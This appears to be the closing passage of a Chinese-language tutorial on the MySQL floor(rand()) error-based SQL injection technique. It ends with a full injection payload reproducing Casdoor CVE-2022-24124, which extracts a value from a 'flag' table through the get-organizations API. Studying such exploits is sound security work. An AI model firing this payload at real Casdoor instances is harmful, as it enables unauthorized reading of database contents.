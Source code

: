 ```plain
```

也就是说在实际渗透中，报错注入使用 floor(rand(14)\*2) 会比 rand(0) 效果要好。

而且如果说表中只存在一条数据，那这个时候报错注入就没法使用了，毕竟只有一条数据也不可能发生主键重复报错。

> 最后

### 对 floor 报错注入原理的学习缘起于 casdoor-CVE-2022-24124 注入漏洞 payload 复现的疑惑

```plain
/api/get-organizations? p=1&pageSize=10&value=e99nb&sortField=&sortOrder=&field=(select 123 from (select count (*), concat ((select (value) from flag limit 1),'~', floor (rand (14)*2)) x from (select 1 union all select 2) as t group by x) x)
```

参考文献：

[https://www.freebuf.com/articles/web/257881.html](https://www.freebuf.com/articles/web/257881.html)  
%% %% %% %%
